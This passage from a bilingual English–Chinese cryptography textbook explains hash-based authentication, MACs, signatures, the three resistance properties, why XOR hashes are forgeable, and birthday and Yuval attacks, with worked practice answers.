
Four ways to protect the hash, with a shared symmetric key \(K\) and a shared secret value \(S\) that is never sent:保护散列值的四种方法，使用共享的对称密钥 \(K\) 以及从不发送的共享秘密值 \(S\)：
| Scheme方案 | Transmitted传输内容 | Provides提供 |
|---|---|---|
| (a) encrypt message and hash(a) 加密消息和散列值 | \(E(K,[M\Vert H(M)])\) | authentication and confidentiality认证与机密性 |
| (b) encrypt the hash only(b) 仅加密散列值 | \(M\Vert E(K,H(M))\) | authentication; much less computation; no confidentiality认证；计算量少得多；无机密性 |
| (c) hash with a secret value(c) 用秘密值进行散列 | \(M\Vert H(M\Vert S)\) | authentication without any encryption认证，无任何加密 |
| (d) (c) plus encryption(d) (c) 加上加密 | \(E(K,[M\Vert H(M\Vert S)])\) | authentication and confidentiality认证与机密性 |
Why each scheme works: only a holder of \(K\) or \(S\) can build a matching pair. In scheme (a) the hash also gives the receiver the redundancy to recognise a correct decryption.各方案为何有效：只有持有 \(K\) 或 \(S\) 的人才能构造出匹配的一对数据。在方案 (a) 中，散列还为接收者提供冗余，使其能够识别解密是否正确。
Authentication without encryption, as in (b) and (c), is often preferred for these reasons.像 (b) 和 (c) 那样只做认证而不加密，常常是更受青睐的做法，原因如下：
- Encryption software is slow.加密软件很慢。
- Encryption hardware costs money and is tuned for large data, so small messages suffer start-up overhead.加密硬件价格昂贵，并且是为大数据量调优的，因此小消息会受到启动开销的影响。
- Algorithms may be patented.算法可能受专利保护。
- It suits broadcasts that one node checks on behalf of all, loaded systems that verify only a random sample, and plaintext programs that must be checkable without decrypting them at every run.它适合这样几种情形：广播中由一个节点代表所有节点进行检查；系统负载较重，只验证随机抽取的样本；以及明文程序，它们必须能够被检查，而不必每次运行都先解密。
Symmetric encryption alone does not authenticate: in ECB mode, reordering ciphertext blocks still decrypts correctly.仅靠对称加密并不能认证：在 ECB 模式下，即使调换密文分组的顺序，仍然能正确解密。
A message authentication code（消息认证码）(MAC, also called a keyed hash) takes a secret key and a message and returns a fixed-size tag. The receiver recomputes the tag with the shared key. Scheme (b) is already a MAC. A key used only as prefix or only as suffix is weaker; the standard solution is HMAC (Section 12.3).消息认证码（MAC，也称带密钥的散列）以一个秘密密钥和一条消息为输入，输出固定长度的标签。接收者用共享密钥重新计算标签。方案 (b) 本身就是一个 MAC。若密钥只用作前缀或只用作后缀，则安全性较弱；标准的解决办法是 HMAC（见第 12.3 节）。
Step 3: digital signatures and other uses第 3 步：数字签名及其他用途
In words: a digital signature is a MAC where the hash is locked with the sender's private key, so everybody can check it and only the sender can make it.用文字表述：数字签名就是这样一种 MAC：散列值用发送者的私钥加锁，因此人人都能验证，而只有发送者能生成它。
A digital signature（数字签名）is the hash encrypted with the sender's private key: signature \(=E(PR_a,H(M))\). Here \(E\) is the encryption algorithm and \(PR_a\) is Alice's private key. Anyone with her public key \(PU_a\) can verify it (Section 13.1).数字签名是用发送者私钥加密后的散列值，即签名 \(=E(PR_a,H(M))\)。这里 \(E\) 是加密算法，\(PR_a\) 是 Alice 的私钥。拿着她的公钥 \(PU_a\) 的人都可以验证它（见第 13.1 节）。


Other applications of a hash:散列的其他应用：
- One-way password file: the system stores \(H(\text{password})\), not the password. At login it hashes the entered password and compares. A thief of the file cannot read the passwords (Section 17.2).单向口令文件：系统存储的是 \(H(\text{password})\)，而不是口令本身。登录时，系统对输入的口令做散列并进行比较。偷走文件的人读不出口令（见第 17.2 节）。
- Intrusion and virus detection: store \(H(F)\) of every file in a protected place, for example read-only media, and recompute it later. An intruder would have to change \(F\) without changing \(H(F)\).入侵与病毒检测：将每个文件的 \(H(F)\) 存放在受保护的位置（例如只读介质）中，并在以后重新计算。入侵者必须在不改变 \(H(F)\) 的情况下修改 \(F\)。
- Pseudorandom functions and generators: hash outputs are used for key derivation and for generating pseudorandom bits (Chapter 8).伪随机函数与伪随机数生成器：散列输出用于密钥导出以及生成伪随机比特（第 8 章）。
Practice练习
Q1. (Explain) Bob receives a message and a hash value over the same insecure channel. Show how Darth defeats the integrity check and give three ways to prevent the attack.Q1.（解释）Bob 通过同一个不安全信道接收一条消息和一个散列值。说明 Darth 如何破坏完整性检查，并给出三种防止该攻击的方法。
Answer
Darth intercepts \((M,H(M))\), substitutes \(M^*\) and sends \((M^*,H(M^*))\). Bob recomputes \(H(M^*)\), finds a match and accepts, because \(H\) is public and keyless. Prevention: make the hash depend on a secret or protect it. (i) Encrypt the hash (or message and hash) with a shared key \(K\). (ii) Hash a shared secret together with the message, \(H(M\Vert S)\). (iii) Sign the hash with Alice's private key. Darth lacks \(K\), \(S\) or \(PR_a\), so he cannot produce a matching value.Darth 截获 \((M,H(M))\)，替换为 \(M^*\)，并发送 \((M^*,H(M^*))\)。Bob 重新计算 \(H(M^*)\)，发现匹配并接受，因为 \(H\) 是公开且无密钥的。防御方法：使散列依赖于某个秘密，或对其进行保护。(i) 用共享密钥 \(K\) 加密散列值（或消息和散列值）。(ii) 将共享秘密与消息一起散列，即 \(H(M\Vert S)\)。(iii) 用 Alice 的私钥对散列值签名。Darth 只要缺少 \(K\)、\(S\) 或 \(PR_a\) 中的任何一个，就无法产生匹配的值。
Q2. (Compare) Compare \(E(K,[M\Vert H(M)])\) with \(M\Vert E(K,H(M))\) in services and cost. When is each appropriate?Q2.（比较）比较 \(E(K,[M\Vert H(M)])\) 与 \(M\Vert E(K,H(M))\) 在服务和代价上的差异。各自适用于何种情形？
Answer
The first encrypts the whole message: authentication plus confidentiality, at an encryption cost proportional to the message length. The second encrypts only the fixed-size hash: authentication without confidentiality, at the cost of one hash and one short encryption. Use the second when the message may be public (broadcasts, software, selective checking) and the first when it must also be secret. The second is itself a MAC.前者加密整个消息：提供认证与机密性，加密代价与消息长度成正比。后者只加密固定大小的散列值：提供认证但无机密性，代价为一次散列加一次较短的加密。当消息可以公开时（广播、软件、选择性校验）使用后者；当消息还必须保密时使用前者。后者本身就是一种 MAC。
Q3. (Application) A server stores \(H(F)\) of every system file in the same writable directory as the files. Why does this fail against an intruder, how is it repaired, and which hash property is then needed?Q3.（应用）服务器将每个系统文件的 \(H(F)\) 存放在与文件相同的可写目录中。为什么这种做法在面对入侵者时会失败？如何修复？此时需要哪一种散列性质？
Answer
The intruder changes \(F\) to \(F^*\) and overwrites the stored value with \(H(F^*)\): the same attack as the man in the middle. The hash values must be protected, for example kept on read-only or offline media, or computed as a keyed hash. The intruder must then find \(F^*\ne F\) with \(H(F^*)=H(F)\), which second preimage resistance makes infeasible.入侵者将 \(F\) 改为 \(F^*\)，并用 \(H(F^*)\) 覆盖存储的值：这与中间人攻击相同。散列值必须受到保护，例如存放在只读或离线介质上，或计算为带密钥的散列。入侵者随后必须找到满足 \(H(F^*)=H(F)\) 的 \(F^*\ne F\)，而这在抗第二原像性的保证下是不可行的。
Security requirements ★★★安全要求
Goal. Define the three resistance properties, say who chooses what in each attack, and state which properties an application needs. Show why a simple XOR hash is not secure.目标。定义三种抗性性质，说明在每种攻击中由谁来选择什么，并说明一个应用需要哪些性质。说明为什么简单的 XOR 散列不安全。
Step 1: the requirements第 1 步：要求
In words: three attacks, three properties: given a hash value, find an input; given an input, find another one; find any two that agree.用文字表述：三种攻击对应三种性质：给定散列值，找一个输入；给定一个输入，找另一个输入；找出任意两个结果相同的输入。
| Requirement要求 | Description说明 |
|---|---|
| Variable input size输入长度可变 | \(H\) applies to data of any size\(H\) 适用于任意大小的数据 |
| Fixed output size输出长度固定 | \(H\) produces a fixed-length output |
| Efficiency效率 | \(H(x)\) is easy to compute for any \(x\) (hardware and software)对任意 \(x\)，\(H(x)\) 都易于计算（硬件和软件实现均可） |
| Preimage resistant (one-way)抗原像性（单向性） | for any given \(h\), infeasible to find \(y\) with \(H(y)=h\)对任意给定的 \(h\)，找到满足 \(H(y)=h\) 的 \(y\) 不可行 |
| Second preimage resistant (weak collision resistant)抗第二原像性（弱抗碰撞性） | for any given \(x\), infeasible to find \(y\ne x\) with \(H(y)=H(x)\)对任意给定的 \(x\)，找到满足 \(H(y)=H(x)\) 的 \(y\ne x\) 不可行 |
| Collision resistant (strong collision resistant)抗碰撞性（强抗碰撞性） | infeasible to find any pair \(x\ne y\) with \(H(x)=H(y)\)找到满足 \(H(x)=H(y)\) 的任意一对 \(x\ne y\) 不可行 |
| Pseudorandomness伪随机性 | output passes standard randomness tests输出通过标准随机性检验 |
A function that meets the first five requirements is a weak hash function（弱散列函数）. If it is also collision resistant it is a strong hash function（强散列函数）. Pseudorandomness is implied: the three resistance properties assume that the output looks random.满足前五条要求的函数是弱散列函数。若它还具有抗碰撞性，则是强散列函数。伪随机性是隐含的要求：三种抗性都假设输出看起来是随机的。
Why each property matters, with the attack that exploits its absence:逐一说明每项性质为何重要，以及缺少该性质时可被利用的攻击：
- Preimage resistance. In scheme (c) the attacker sees \(M\) and \(h=H(S\Vert M)\). If \(H\) could be inverted, the attacker would obtain \(S\Vert M\) and, knowing \(M\), recover \(S\).抗原像性。在方案 (c) 中，攻击者看到 \(M\) 和 \(h=H(S\Vert M)\)。若 \(H\) 可以被求逆，攻击者就能得到 \(S\Vert M\)，并在知道 \(M\) 的情况下恢复 \(S\)。
- Second preimage resistance. The attacker observes \(M\) and \(E(K,H(M))\), computes \(H(M)\) and finds \(M'\ne M\) with the same hash. He attaches the same encrypted hash: a forgery.抗第二原像性。攻击者观察到 \(M\) 和 \(E(K,H(M))\)，计算出 \(H(M)\)，并找到一个散列值与之相同的 \(M'\ne M\)。他把同样的加密散列值附在上面：这就构成了伪造。
- Collision resistance. Bob writes two IOUs: \(M_1\) for a small amount and \(M_2\) for a large one, with \(H(M_1)=H(M_2)\). Alice signs \(M_1\). Bob presents her signature with \(M_2\). Here the attacker chooses both messages.抗碰撞性。Bob 写下两张欠条：一张是 \(M_1\)，金额小；另一张是 \(M_2\)，金额大，两者具有相同的 \(H(M_1)=H(M_2)\)。Alice 对 \(M_1\) 签了名。Bob 把 Alice 的签名连同 \(M_2\) 一起出示。这里攻击者自己选取了两条消息。
Step 2: how the properties relate第 2 步：各性质之间的关系
In words: the more freedom the attacker has, the easier the attack, so collision resistance is the hardest property to keep.用文字表述：攻击者的自由度越大，攻击就越容易，因此抗碰撞性是最难保持的性质。
In a preimage attack the target is a hash value. In a second preimage attack it is one fixed message. In a collision attack the attacker picks both messages freely.在原像攻击中，目标是一个散列值。在第二原像攻击中，目标是一条固定的消息。在碰撞攻击中，攻击者可以自由地选取两条消息。
Collision resistance implies second preimage resistance, because a second preimage \(y\) of \(x\) is a collision \((x,y)\). No other implication holds.抗碰撞性蕴含抗第二原像性，因为 \(x\) 的一个第二原像 \(y\) 构成碰撞 \((x,y)\)。其他蕴含关系都不成立。


- The identity map \(H(x)=x\) on \(n\)-bit blocks has no collisions, but it is inverted at once. So collision resistance does not imply preimage resistance.\(n\) 比特分组上的恒等映射 \(H(x)=x\) 没有碰撞，但它一下子就能被求逆。因此，抗碰撞性并不蕴含抗原像性。
- Take \(b\)-bit inputs \(x\) and a one-way function \(g\), and let \(H\) ignore the last bit \(x_b\) of \(x\). It is preimage resistant, yet flipping \(x_b\) gives a second preimage.取 \(b\) 比特的输入 \(x\) 和一个单向函数 \(g\)，并让 \(H\) 忽略 \(x\) 的最后一位 \(x_b\)。它具有抗原像性，然而翻转 \(x_b\) 就能得到一个第二原像。
Resistance properties needed by each application. A star means that the property is needed only if the attacker can mount a chosen-message attack.各应用所需的抗性性质。星号表示：只有当攻击者能够发起选择消息攻击时，才需要该性质。
| Application应用层 | Preimage原像 | Second preimage第二原像 | Collision碰撞 |
|---|---|---|---|
| Hash + digital signature散列 + 数字签名 | yes是 | yes是 | yes*是* |
| Intrusion and virus detection入侵与病毒检测 | yes是 | ||
| Hash + symmetric encryption散列 + 对称加密 | |||
| One-way password file单向口令文件 | yes是 | ||
| MAC | yes是 | yes是 | yes*是* |
A blank cell means the property is not needed. For hash plus symmetric encryption the encryption protects the hash.空白单元格表示不需要该性质。对于“散列加对称加密”的方案，是加密保护了散列值。
Step 3: simple hash functions fail第 3 步：简单的散列函数不安全
In words: XOR-based hashes are linear, so the attacker can write any message and add one block that fixes the hash.用文字表述：基于 XOR 的散列是线性的，因此攻击者可以写出任意消息，再附加一个分组，把散列值调整到所需的值。
Both toy designs below process the input as \(n\)-bit blocks to give an \(n\)-bit result.下面两种玩具式设计都把输入按 \(n\) 比特分组处理，得到 \(n\) 比特的结果。
- Bitwise XOR: each hash bit is the parity of that bit position over all blocks. For random data an error leaves the hash unchanged with probability \(2^{-n}\). For text it is weaker: the high-order bit of every ASCII octet is 0, so for \(n=128\) sixteen hash bits never vary and the probability rises from \(2^{-128}\) to \(2^{-112}\).逐位异或：散列值的每一位，都是所有分组在该位置上的奇偶校验。对于随机数据，一个错误使散列值保持不变的概率为 \(2^{-n}\)。对于文本，它的效果更差：每个 ASCII 字节的最高位都是 0，因此对于 \(n=128\)，有 16 个散列位永远不会变化，错误使散列值保持不变的概率从 \(2^{-128}\) 上升到 \(2^{-112}\)。
- Rotated XOR (RXOR): start with 0; for each block rotate the hash left by one bit, then XOR the block in. It is still linear.循环异或（RXOR）：从 0 开始；对每个分组，先把散列值循环左移一位，再异或进该分组。它仍然是线性的。
How to forge: write the desired message, compute its hash \(h'\), and append one block \(X\) that forces the final value to the target \(h\). For XOR, \(X=h\oplus h'\). For RXOR, \(X=h\oplus\mathrm{ROL}_1(h')\), where \(\mathrm{ROL}_1\) rotates left by one bit.伪造方法：写出所需的消息，计算它的散列值 \(h'\)，然后附加一个分组 \(X\)，使最终的值等于目标 \(h\)。对于 XOR，\(X=h\oplus h'\)。对于 RXOR，\(X=h\oplus\mathrm{ROL}_1(h')\)，其中 \(\mathrm{ROL}_1\) 表示循环左移一位。
Encrypting message and hash together is not safe either. In the NBS scheme, a XOR checksum block is appended to the message and everything is encrypted in CBC mode. XOR does not depend on the order of its inputs, so an attacker can permute ciphertext blocks. The message changes and the check still passes. A hash needs nonlinear mixing.把消息和散列值一起加密同样不安全。在 NBS 方案中，一个 XOR 校验分组被附加在消息之后，整体用 CBC 模式加密。异或与输入的顺序无关，因此攻击者可以置换密文分组。消息变了，校验却仍然通过。散列需要非线性的混合。
Practice练习
Q1. (True/false) Decide and justify. (a) A collision-resistant hash \(H\) satisfies \(H(x)\ne H(y)\) for all \(x\ne y\). (b) Collision resistance implies preimage resistance.Q1.（判断）判定并说明理由。(a) 抗碰撞的散列函数 \(H\) 对所有 \(x\ne y\) 满足 \(H(x)\ne H(y)\)。(b) 抗碰撞性蕴含抗原像性。
Answer
(a) False. \(H\) maps an unbounded set of messages to \(2^n\) values, so by the pigeonhole principle collisions exist; collision resistance only says that finding one is computationally infeasible. (b) False. The identity function on fixed-length blocks, \(H(x)=x\), has no collisions, yet every preimage is found instantly. The properties are independent apart from collision resistance implying second preimage resistance.(a) 错误。\(H\) 将无界的消息集合映射到 \(2^n\) 个值，故由鸽巢原理，碰撞必然存在；抗碰撞性只说明找到碰撞在计算上不可行。(b) 错误。定长分组上的恒等函数 \(H(x)=x\) 没有碰撞，但每个原像都能被立即求得。除抗碰撞性蕴含抗第二原像性之外，这些性质彼此独立。
易错：抗碰撞性不是“不存在碰撞”，而是“找不到碰撞”。
Q2. (Calculation) A hash \(H\) is the bitwise XOR of 8-bit blocks. (a) Show that it detects every error with an odd number of flipped bits but not every even one. (b) For \(M=(\texttt{3C},\texttt{A5},\texttt{0F})\), find a different message that begins 11 22 33 and has the same hash. (c) Repeat (b) for RXOR (rotate left by one bit, then XOR each block).Q2.（计算）散列 \(H\) 是 8 位分组的按位异或。(a) 证明它能检测出所有翻转奇数个位的错误，但不能检测所有偶数个位的错误。(b) 对于 \(M=(\texttt{3C},\texttt{A5},\texttt{0F})\)，求一个以 11 22 33 开头、且与之具有相同散列值的不同消息。(c) 对 RXOR（先将每个分组循环左移一位，再与之异或）重复 (b)。
Answer
(a) An odd number of flips puts an odd number of errors into at least one bit column, which changes that parity bit. Two flips in the same column of two different blocks cancel, so some even patterns are missed.(a) 奇数次翻转会使至少一个位列中出现奇数个错误，从而改变该奇偶位。若两个不同分组的同一列中有两次翻转，它们会相互抵消，因此某些偶数模式会被漏检。
(b) \(H(M)=\texttt{3C}\oplus\texttt{A5}\oplus\texttt{0F}=\texttt{96}\). Since \(\texttt{11}\oplus\texttt{22}\oplus\texttt{33}=\texttt{00}\), append \(X=\texttt{96}\): the message \((\texttt{11},\texttt{22},\texttt{33},\texttt{96})\) hashes to 96.(b) \(H(M)=\texttt{3C}\oplus\texttt{A5}\oplus\texttt{0F}=\texttt{96}\)。由于 \(\texttt{11}\oplus\texttt{22}\oplus\texttt{33}=\texttt{00}\)，附加 \(X=\texttt{96}\)：消息 \((\texttt{11},\texttt{22},\texttt{33},\texttt{96})\) 的散列值为 96。
(c) For \(M\): \(\texttt{3C}\); rotate to \(\texttt{78}\), XOR \(\texttt{A5}\) gives \(\texttt{DD}\); rotate to \(\texttt{BB}\), XOR \(\texttt{0F}\) gives \(\texttt{B4}\). For \((\texttt{11},\texttt{22},\texttt{33})\) the running hash is \(\texttt{11}\to\texttt{00}\to\texttt{33}\). Rotating \(\texttt{33}\) gives \(\texttt{66}\), so \(X=\texttt{66}\oplus\texttt{B4}=\texttt{D2}\), and \((\texttt{11},\texttt{22},\texttt{33},\texttt{D2})\) hashes to \(\texttt{B4}\).(c) 对于 \(M\)：\(\texttt{3C}\)；循环移位得 \(\texttt{78}\)，与 \(\texttt{A5}\) 异或得 \(\texttt{DD}\)；再循环移位得 \(\texttt{BB}\)，与 \(\texttt{0F}\) 异或得 \(\texttt{B4}\)。对于 \((\texttt{11},\texttt{22},\texttt{33})\)，运行中的散列值为 \(\texttt{11}\to\texttt{00}\to\texttt{33}\)。将 \(\texttt{33}\) 循环移位得 \(\texttt{66}\)，因此 \(X=\texttt{66}\oplus\texttt{B4}=\texttt{D2}\)，于是 \((\texttt{11},\texttt{22},\texttt{33},\texttt{D2})\) 的散列值为 \(\texttt{B4}\)。
Q3. (Analysis) Messages are sequences \((a_1,\dots,a_t)\) of integers in \(\mathbb Z_n\) and \(h=\big(\sum_i a_i^2\big)\bmod n\). (a) Which requirements does this hash meet? (b) Compute \(h\) for \(M=(189,632,900,722,349)\) and \(n=989\).Q3.（分析）消息是取值于 \(\mathbb Z_n\) 与 \(h=\big(\sum_i a_i^2\big)\bmod n\) 之间的整数序列 \((a_1,\dots,a_t)\)。(a) 该散列满足哪些要求？(b) 对 \(M=(189,632,900,722,349)\) 和 \(n=989\) 计算 \(h\)。
Answer
(a) It meets variable input size, fixed output size (a value in \(\mathbb Z_n\)) and efficiency. It fails the rest. Preimage: to hit \(h\), take \(h\) copies of 1, since \(1^2=1\). Second preimage: reorder the \(a_i\), or replace \(a_1\) by \(n-a_1\), because \((n-a_1)^2\equiv a_1^2\). Hence it is not collision resistant either.(a) 它满足变长输入、定长输出（取值于 \(\mathbb Z_n\)）和高效性，其余要求均不满足。原像：要得到 \(h\)，取 \(h\) 个 1 即可，因为 \(1^2=1\)。第二原像：重新排列 \(a_i\)，或将 \(a_1\) 替换为 \(n-a_1\)，因为 \((n-a_1)^2\equiv a_1^2\)。因此它也不是抗碰撞的。
(b) The squares are \(35{,}721\), \(399{,}424\), \(810{,}000\), \(521{,}284\) and \(121{,}801\), with sum \(1{,}888{,}230\). Since \(989\times1909=1{,}888{,}001\), \(h=1{,}888{,}230-1{,}888{,}001=229\).(b) 平方分别为 \(35{,}721\)、\(399{,}424\)、\(810{,}000\)、\(521{,}284\) 和 \(121{,}801\)，其和为 \(1{,}888{,}230\)。由于 \(989\times1909=1{,}888{,}001\)，故 \(h=1{,}888{,}230-1{,}888{,}001=229\)。
Brute-force attacks and the birthday attack ★★★穷举攻击与生日攻击
Goal. Compute the work and the success probability of a brute-force or birthday attack for a given digest length. Describe Yuval's attack on a signature, with its cost and a defence.目标。对于给定的散列值长度，计算穷举攻击或生日攻击的工作量和成功概率。描述针对签名的 Yuval 攻击，给出它的代价以及一种防御方法。
Step 1: preimage and second preimage第 1 步：原像与第二原像
In words: to invert an \(n\)-bit hash, try inputs until one gives the target: half the space on average.用文字表述：要对一个 \(n\) 比特的散列值求逆，就逐个尝试输入，直到得到目标值：平均要试完一半的空间。
A brute-force attack（暴力攻击）depends only on the digest length \(n\), not on the algorithm. The attacker tries inputs \(y\) until \(H(y)\) equals the target hash. The work is of order \(2^n\), on average \(2^{n-1}\) trials. Cryptanalysis（密码分析）instead exploits weaknesses of one algorithm. An ideal hash needs cryptanalytic effort at least equal to brute force.穷举攻击只取决于散列值长度 \(n\)，而与具体算法无关。攻击者依次尝试输入 \(y\)，直到 \(H(y)\) 等于目标散列值。其工作量的量级为 \(2^n\)，平均需要 \(2^{n-1}\) 次尝试。相比之下，密码分析则是利用某一种算法的弱点。理想的散列函数，其密码分析所需的工作量至少与穷举相当。
Step 2: collisions and the birthday paradox第 2 步：碰撞与生日悖论
In words: among \(k\) values there are about \(k^2/2\) pairs, and each pair collides with probability \(1/N\), so a collision needs only about \(\sqrt N\) values.用文字表述：在 \(k\) 个值中大约有 \(k^2/2\) 对，每一对以概率 \(1/N\) 发生碰撞，因此只需要大约 \(\sqrt N\) 个值就能得到一次碰撞。
The birthday paradox（生日悖论）: in a group of 23 people the probability that two share a birthday is already 0.507. The question is about any pair, not about a pair that includes you. For an \(n\)-bit hash \(N=2^n\) is the number of possible digest values.生日悖论：在 23 个人的一个群体中，有两人生日相同的概率已经达到 0.507。问题涉及的是任意一对人，而不是包含你自己的那一对。对于 \(n\) 比特的散列，\(N=2^n\) 就是可能的散列值个数。
How to do it by hand: 1. Write \(N=2^n\) and \(\sqrt N=2^{n/2}\). 2. For \(p=0.5\) multiply \(\sqrt N\) by 1.1774, since \(\sqrt{2\ln2}=1.1774\). 3. For \(p=0.9\) multiply by \(\sqrt{2\ln10}=2.146\). 4. Divide the number of hashes by the hash rate to get the time.手工做法：1. 写出 \(N=2^n\) 和 \(\sqrt N=2^{n/2}\)。2. 对于 \(p=0.5\)，把 \(\sqrt N\) 乘以 1.1774，因为 \(\sqrt{2\ln2}=1.1774\)。3. 对于 \(p=0.9\)，乘以 \(\sqrt{2\ln10}=2.146\)。4. 用散列次数除以散列速率，得到所需时间。
Step 3: Yuval's birthday attack on signatures第 3 步：Yuval 针对签名的生日攻击
In words: prepare many harmless versions of the good message and many versions of the bad one until two versions have the same hash.用文字表述：准备许多无害的好消息版本，以及许多坏消息版本，直到某两个版本的散列值相同为止。
Yuval's strategy turns the birthday paradox into a forgery against a signature made by encrypting \(H(M)\) with the private key (Section 13.1).Yuval 的策略把生日悖论变成了对签名的伪造，这种签名是用私钥加密 \(H(M)\) 而生成的（见第 13.1 节）。
- Alice is ready to sign a legitimate message \(x\) by encrypting its \(n\)-bit hash with her private key.Alice 准备对一条合法消息 \(x\) 进行签名，方法是用她的私钥加密其 \(n\) 位散列值。
- The opponent generates \(2^{n/2}\) variations \(x'\) of \(x\) that all convey the same meaning and stores each hash \(H(x')\).对手生成 \(x\) 的 \(2^{n/2}\) 个变体 \(x'\)，它们都表达相同的含义，并存储每个变体的散列值 \(H(x')\)。
- The opponent prepares a fraudulent message \(y\) and generates variations \(y'\) with the same meaning, computing \(H(y')\), until one equals a stored \(H(x')\).对手准备一条欺诈性消息 \(y\)，并生成与之含义相同的变体 \(y'\)，计算 \(H(y')\)，直到其中一个等于某个已存储的 \(H(x')\)。
- The opponent offers that variation \(x'\) to Alice, who signs it.对手将变体 \(x'\) 提供给 Alice，Alice 对其签名。
- The signature of \(x'\) is attached to \(y'\). Both have the same hash, so the signature is valid. The opponent never needs the key.\(x'\) 的签名附在 \(y'\) 上。两者的散列值相同，因此签名有效。对手从来不需要私钥。
The cost is about \(2^{n/2}\) hashes plus storage for \(2^{n/2}\) entries, so a 64-bit hash falls after about \(2^{32}\) operations. Variations are cheap: insert "space, space, backspace" between words, or reword with synonyms. A letter with 32 independent two-way word choices has \(2^{32}\) versions.代价约为 \(2^{n/2}\) 次散列，外加存储 \(2^{n/2}\) 个条目，因此一个 64 位的散列大约在 \(2^{32}\) 次操作后就会被攻破。变体很便宜：在词与词之间插入“空格、空格、退格”，或者用同义词改写。一封信若有 32 处相互独立的二选一措辞，则有 \(2^{32}\) 个版本。
Van Oorschot and Wiener designed a 10 million dollar machine that finds an MD5 (128-bit) collision in 24 days, so 128 bits are inadequate. For 160 bits the same machine needs \(24\times2^{16}\approx4300\) years, but with current technology the time is much shorter, so 160 bits are also suspect.van Oorschot 与 Wiener 设计了一台造价 1000 万美元的机器，能在 24 天内找到 MD5（128 比特）的一次碰撞，因此 128 比特是不够的。对于 160 比特，同一台机器需要 \(24\times2^{16}\approx4300\) 年，但用现代技术，所需时间要短得多，因此 160 比特也值得怀疑。
Practice练习
Q1. (Calculation) A hash has \(n=40\) bits. (a) How many trials does a preimage attack need on average? (b) How many random messages must be hashed for a collision with probability 0.5 and with probability 0.9? (c) Compare (a) and (b).Q1.（计算）某散列有 \(n=40\) 位。(a) 原像攻击平均需要多少次试验？(b) 要使碰撞概率分别为 0.5 与 0.9，需要散列多少个随机消息？(c) 比较 (a) 与 (b)。
Answer
(a) \(2^{n-1}=2^{39}=5.5\times10^{11}\) trials.(a) \(2^{n-1}=2^{39}=5.5\times10^{11}\) 次试验。
(b) \(N=2^{40}\), \(\sqrt N=2^{20}=1{,}048{,}576\). For \(p=0.5\): \(k=1.1774\times2^{20}=1.23\times10^{6}\). For \(p=0.9\): \(k=\sqrt{2\ln10}\times2^{20}=2.146\times1{,}048{,}576=2.25\times10^{6}\).(b) \(N=2^{40}\)，\(\sqrt N=2^{20}=1{,}048{,}576\)。对于 \(p=0.5\)：\(k=1.1774\times2^{20}=1.23\times10^{6}\)。对于 \(p=0.9\)：\(k=\sqrt{2\ln10}\times2^{20}=2.146\times1{,}048{,}576=2.25\times10^{6}\)。
(c) The collision search is about \(5.5\times10^{11}/1.23\times10^{6}\approx4.5\times10^{5}\) times cheaper than inverting the hash.(c) 碰撞搜索的代价比对散列求逆约低 \(5.5\times10^{11}/1.23\times10^{6}\approx4.5\times10^{5}\) 倍。
思路：先写 \(k\approx\sqrt{2N\ln\frac1{1-p}}\)，再代入 \(N=2^n\)。
